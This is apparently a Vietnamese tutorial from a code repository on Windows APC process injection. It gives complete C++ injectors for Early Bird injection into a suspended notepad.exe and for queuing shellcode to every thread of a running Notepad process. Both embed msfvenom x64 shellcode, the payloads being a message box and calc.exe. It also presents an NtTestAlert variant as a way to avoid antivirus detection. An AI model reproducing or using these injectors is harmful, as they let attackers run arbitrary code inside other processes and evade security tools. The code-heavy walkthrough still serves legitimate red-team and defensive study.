# Process Injection: Asynchronous Procedure Call (APC)

# Bối cảnh ban đầu

Chúng ta sẽ tiếp tục triển khai các kĩ thuật Process Injection, tiếp đến là các kĩ thuật liên quan đến ```APC Queue Injection```.  Và việc việc APC này là việc một hàm sẽ được thực thi một cách bất đồng bộ trong context của một luồng cụ thể. 

Khi một APC được xếp vào hàng đợi của một luồng, hệ thống sẽ tạo ra một ngắt phần mềm (software interrupt). Lần tiếp theo khi luồng được chạy nó sẽ chạy hàm APC. APC do hệ thống tạo ra gọi là ```kernel-mode APC```. APC do người dùng tạo ra gọi là ```user-mode APC```. Một luồng (thread) phải ở trạng thái alertable thì mới chạy được ở ```user-mode APC.```

Mỗi luồng có một hàng đợi APC riêng. Ứng dụng đưa APC vào hàng đợi của một luồng bằng cách gọi hàm ```QueueUserAPC```. Việc xếp APC vào hàng đợi là một yêu cầu để gọi luồng gọi hàm APC. 

Khi một ```user-mode APC``` được trong hàng đợi, luồng sẽ không bắt buộc gọi các hàm APC trừ khi nó đang ở trong trạng thái ```alertable``` (trạng thái có thể bị ngắt). Một luồng sẽ đi vào trạng thái đó nếu như nó gọi các hàm ```SleepEx, SignalObjectAndWait, MsgWaitForMultipleObjectsEx, WaitForMultipleObjectsEx, hoặc WaitForSingleObjectEx```.  

Việc APC được sử dụng trong Windows nhằm tiết kiệm thời gian, tránh việc luồng không bị rảnh, lãng phí thời gian không cần thiết. Nhưng đây cũng là điểm để kẻ tấn công có thể lợi dụng và chèn và thực thi các tác vụ độc hại.

# Tổng quan chung



## Lưu ý quan trọng 

Nếu chèn tác vụ vào hàng đợi APC của một thread trước khi nó bắt đầu thực thi thì sau khi thực thi, thread đó sẽ không thực hiện chức năng chính mà thay vào đó sẽ thực thi các tác vụ đang có trong hàng đợi APC của nó.

# Triển khai kĩ thuật Early Bird APC Injection

Kĩ thuật này sẽ chèn các tác vụ độc hại vào thread có sẵn trên hệ thống, kỹ thuật này sẽ tạo ra một target process ở trạng thái ngưng hoạt động (suspended). Rồi sau đó nó thực hiện việc chèn các tác vụ độc hại vào trong hàng đợi APC của main thread trong target process. Cuối cùng khi đó main thread sẽ thực thi các tác vụ độc hại có sẵn trong hàng đợi APC thay vì thực hiện chức năng cơ bản của nó.

## Tạo shellcode x64 với msfvenom



## Tùy chỉnh các struct để gọi CreateProcess và với thread bị treo.



## Thực hiện cấp phát bộ nhớ và ghi shellcode bằng các hàm VirtualAllocEx và WriteProcessMemory



## Chèn shellcode vào hàng đợi bằng cách gọi QueueUserAPC 


## Tiếp tục thread chính, thực thi shellcode và chờ Notepad.exe kết thúc



## Demo



## Mã nguồn

```C++
#include<stdio.h>
#include<Windows.h>
#include<winternl.h>

unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xcc\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x48\x31\xd2\x56\x65\x48\x8b\x52\x60"
"\x48\x8b\x52\x18\x48\x8b\x52\x20\x4d\x31\xc9\x48\x8b\x72"
"\x50\x48\x0f\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51"
"\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18"
"\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00"
"\x48\x85\xc0\x74\x67\x48\x01\xd0\x8b\x48\x18\x50\x44\x8b"
"\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x4d\x31\xc9\x41"
"\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac"
"\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39"
"\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b"
"\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41"
"\x58\x48\x01\xd0\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41"
"\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x4b\xff\xff\xff\x5d\xe8\x0b\x00\x00\x00\x75"
"\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x59\x41\xba\x4c"
"\x77\x26\x07\xff\xd5\x49\xc7\xc1\x00\x00\x00\x00\xe8\x08"
"\x00\x00\x00\x4c\x75\x6f\x6e\x67\x56\x44\x00\x5a\xe8\x03"
"\x00\x00\x00\x47\x47\x00\x41\x58\x48\x31\xc9\x41\xba\x45"
"\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56"
"\xff\xd5";

int main(int argc, char* argv[]) {
	ULONG_PTR uiVirtualAddress = 0;
	wchar_t processPath[] = L"C:\\Windows\\System32\\notepad.exe";
	STARTUPINFOW si = { sizeof(STARTUPINFOW) };
	PROCESS_INFORMATION pi;
	DWORD dwExitCode = 0;
	BOOL bStatus = false;
	ZeroMemory(&si, sizeof(STARTUPINFOW));
	si.cb = sizeof(STARTUPINFOW);
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
	bStatus = CreateProcessW(processPath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	if (!bStatus) {
		printf("CreateProcessW failed. Error: %d\n", GetLastError());
		return -1;
	}
	else {
		printf("CreateProcessW succeeded.\n");
		
	}
	uiVirtualAddress = (ULONG_PTR)VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if(!uiVirtualAddress) {
		printf("VirtualAllocEx failed. Error: %d\n", GetLastError());
		return -1;
	}
	else {
		printf("VirtualAllocEx succeeded. Allocated address: 0x%p\n", (LPVOID)uiVirtualAddress);
		bStatus = WriteProcessMemory(pi.hProcess, (LPVOID)uiVirtualAddress, shellcode, sizeof(shellcode), NULL);
		if (!bStatus) {
			printf("WriteProcessMemory failed. Error: %d\n", GetLastError());
			return -1;
		}
		else {
			printf("WriteProcessMemory succeeded.\n");
		}
		if (!QueueUserAPC((PAPCFUNC)uiVirtualAddress, pi.hThread, NULL)) {
			printf("QueueUserAPC failed. Error: %d\n", GetLastError());
			return -1;
		}
		else {
			printf("QueueUserAPC succeeded.\n");
		}
	}
	ResumeThread(pi.hThread);
	printf("Resumed the main thread of the process.\n");
	WaitForSingleObject(pi.hProcess, INFINITE);
	GetExitCodeProcess(pi.hProcess, &dwExitCode);
}
```
# Triển khai kĩ thuật APC Injection thông qua process có sẵn

Việc này thay vì việc sử dụng cách tạo 1 process mới ở chế độ treo chúng ta sẽ tìm cách inject vào các tiến trình đã tồn tại sẵn trên máy. Phần target process chúng ta sẽ quan tâm đến những process có nhiều thread đang hoạt động khi đó sẽ dễ gặp 1 thread rơi vào chế độ nghỉ alertable, tác vụ độc hại của chúng ta sẽ dễ kích hoạt hơn.

## Tạo shellcode x64 với msfvenom



Shellcode mở calc.exe

Phần này khá giống phần trước chỉ khác ở phần mở và lấy handle process đã có trên máy, kết hợp với việc lấy tất cả thread của process đó để inject thu được kết quả cao nhất.


## Tìm PID lấy handle bằng OpenProcess rồi cấp phát bộ nhớ bằng VirtualAllocEx rồi ghi bằng WriteProcessMemory




## Thực hiện chèn shellcode độc hại vào tất cả càng hàng đợi APC của mỗi thread



## Mã nguồn 


```C++
#include<iostream>
#include<Windows.h>
#include<winternl.h>
#include<TlHelp32.h>

unsigned char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

DWORD findPIDByProcessName(wchar_t* processName) {
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE) {
		printf("CreateToolhelp32Snapshot failed. Error: %lu\n", GetLastError());
		return 0;
	}
	PROCESSENTRY32 pe;
	pe.dwSize = sizeof(PROCESSENTRY32);
	if (Process32First(hSnapshot, &pe)) {
		do {
			if (wcscmp(pe.szExeFile, processName) == 0) {
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}
}

void QueueAPCAllThreadsOfProcess(DWORD pid, ULONG_PTR shellcode) {
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);	
	if (hSnapshot == INVALID_HANDLE_VALUE) {
		printf("CreateToolhelp32Snapshot failed. Error: %lu\n", GetLastError());
		return;
	}
	THREADENTRY32 te = { 0 };
	ZeroMemory(&te, sizeof(THREADENTRY32));	
	te.dwSize = sizeof(THREADENTRY32);
	if (Thread32First(hSnapshot, &te)) {
		do {
			if (te.th32OwnerProcessID == pid) {
				HANDLE hThread = OpenThread(THREAD_SET_CONTEXT, FALSE, te.th32ThreadID);
				if (hThread) {
					QueueUserAPC((PAPCFUNC)shellcode, hThread, 0);	
					CloseHandle(hThread);
				}
			}
		} while (Thread32Next(hSnapshot, &te));
	}

}

int main(int agrc, char* argv[]) {
	wchar_t processName[] = L"Notepad.exe";
	DWORD pid = findPIDByProcessName(processName);
	if (pid != 0) {
		HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);	
		if (hProcess == NULL) {
			printf("OpenProcess failed. Error: %lu\n", GetLastError());
			return 1;
		}
		else {
			printf("Opened process %ls with PID %lu\n", processName, pid);
		}
		ULONG_PTR uiVirtualAddress = 0;	
		uiVirtualAddress = (ULONG_PTR)(VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE));
		if (uiVirtualAddress == 0) {
			printf("VirtualAllocEx failed. Error: %lu\n", GetLastError());
			CloseHandle(hProcess);
			return 1;
		}
		else {
			printf("Allocated memory at address: 0x%p\n", (LPVOID)uiVirtualAddress);
		}
		if(!WriteProcessMemory(hProcess, (LPVOID)uiVirtualAddress, (LPVOID)shellcode, sizeof(shellcode), NULL))
		{
			printf("WriteProcessMemory failed. Error: %lu\n", GetLastError());
			VirtualFreeEx(hProcess, (LPVOID)uiVirtualAddress, 0, MEM_RELEASE);
			CloseHandle(hProcess);
			return 1;
		}
		else {
			printf("Wrote shellcode to allocated memory.\n");
		}
		QueueAPCAllThreadsOfProcess(pid, uiVirtualAddress);
	}
	else
	{
		printf("Process not found.\n");
	}
}
```


## Video Demo
[Xem video demo](https://youtu.be/E77INGt0-68)


# Triển khai kĩ thuật APC Injection thông qua ```NtTestAlert()```

Hai kỹ thuật APC Injection vừa rồi hoạt động theo nguyên tắc chèn vào thread của process khác bằng cách tại mới hoặc tìm sẵn. Và việc sử dụng ```QueueUserAPC``` dễ bị phát hiện bởi các công cụ như AV. Chính vì vậy chúng ta sẽ cần tìm hiểu một thông tin về API ```NtTestAlert()```.



Thông tin về API ```NtTestAlert()``` đây là một API có tác dụng làm rỗng APC queue của thread hiện tại. Nếu đã rỗng rồi thì nó không làm gì cả. Và trong API này nó sẽ gọi đến ```KiUserApcDispatcher()```. ```KiUserApcDispatcher()``` có tác dụng nhằm xử lý hàng đợi APC, nhằm thực thi hàng đợi APC đã được queue cho thread đó. Và đây là một native API việc sử dụng api này cũng sẽ an toàn đỡ bị lộ hơn. Chúng ta sẽ triển khai inject trực tiếp luôn trên tiếp trình local process mà không cần process khác.



## Sử dụng GetModuleHandle và GetProcAddress để lấy được địa chỉ của NtTestAlert, rồi cấp phát bộ nhớ bằng VirtualAlloc rồi ghi shellcode bằng WriteProcessMemory sử dụng QueueUserAPC để chèn shellcode vô APC queue rồi cuối cùng dùng NtTestAlert để thực thi

